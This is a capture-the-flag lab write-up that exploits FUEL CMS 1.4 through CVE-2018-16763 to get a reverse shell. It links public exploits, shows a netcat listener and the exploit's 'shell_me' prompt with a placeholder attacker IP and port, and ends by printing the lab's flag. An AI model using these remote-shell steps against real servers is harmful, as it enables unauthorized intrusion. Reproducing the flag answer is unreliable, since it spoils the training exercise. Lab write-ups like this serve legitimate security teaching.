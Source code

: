 # Vulnerability Capstone

## Challenge Information
- **Challenge Name**: Vulnerability Capstone
- **Category**: Web Exploitation
- **Difficulty Level**: Easy

## Initial Setup
1. Run the machine and wait for 5 minutes :)

## Enumeration
1. If we simply open the given ipaddress in the browser, we can see a page of an application with the name `FUEL CMS`.

2. The version of this application is also given `1.4`.

3. Search on google for the remote code execution vulnerabilies in the version 1.4 of FUEL CMS. The CVE is `CVE-2018-16763`.

4. Click the button after discovering more exploits :)

## Exploitation
1. After checking exploits on exploit-db: `https://www.exploit-db.com/exploits/50477`, this was one that may work. But unfortunately after trying it, it was showing errors. As we were also warned in the task-5, we should look for some other ones. So i just found this one `https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py`. 

2. First setup a port to get the shell:
```
nc -lvnp PORT
```

3. Run the exploit:
```
python3 exploit.py <IP_ADDRESS>
```

4. Enter the following commands when prompted:
```
shell_me
YOUR_THM_VPN_IP:PORT
```
This will give you the shell on the nc that you set up.

5. Check current directory:
```
pwd
```

6. Navigate to target directory:
```
cd ../../../../home/ubuntu
```

7. List directory contents:
```
ls
```
We can see the `flag.txt` file.

8. Read the flag:
```
cat flag.txt
```
This will give us the flag `THM{ACKME_BLOG_HACKED}`.
